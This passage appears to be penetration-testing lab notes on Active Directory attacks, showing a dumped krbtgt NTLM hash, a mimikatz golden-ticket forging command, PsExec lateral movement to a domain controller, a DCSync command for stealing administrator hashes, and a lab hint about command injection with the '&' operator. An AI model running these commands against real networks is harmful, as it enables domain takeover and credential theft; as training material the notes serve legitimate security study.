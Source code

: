 ```

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 75b60230a2394a812000dbfad8415965
...
```

Now, we can forge the golden ticket.

```
kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt
```

Note the SID was obtained with the whoami /user command.

Now, we can attempt lateral movement with PsExec.

```
mimikatz # misc::cmd
C:\Users\offsec.corp> psexec.exe \\dc01 cmd.exe

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com


C:\Windows\system32>
```

Note that if we tried to connect using PsExec to the IP address instead of the hostname, we would force usage of NTLM authentication and access would be blocked.

### Domain Controller Synchronization

Another way to achieve persistence is by stealing the password hashes of all admins in the domain.&#x20;

```
mimikatz # lsadump::dcsync /user:Administrator
```

## Practice - Active Directory Attacks I

### Question 1

Enumerate all the domains and find a DNS lookup webpage on the 192.168.xxx.58 IP. We can then inject command into the search bar with the & operator.&#x20;
